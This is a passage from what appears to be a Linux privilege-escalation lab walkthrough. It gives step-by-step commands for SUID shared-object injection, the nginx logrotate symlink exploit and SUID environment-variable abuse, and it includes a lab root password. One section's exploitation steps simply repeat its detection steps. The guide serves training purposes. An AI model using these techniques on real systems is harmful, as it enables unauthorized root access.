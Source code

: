 1. Save the file as `libcalc.c`
2. In command prompt type: `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
3. In command prompt type: `/usr/local/bin/suid-so`
4. In command prompt type: `id`

### SUID (Symlinks)

**Detection:**

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

**Exploitation:**

_Linux VM – Terminal 1_

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type: `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

_Linux VM – Terminal 2_

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.\


_Linux VM – Terminal 1_

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

### SUID (Environment Variables #1)

**Detection:**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

**Exploitation:**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

### SUID (Environment Variables #2)

**Detection:**
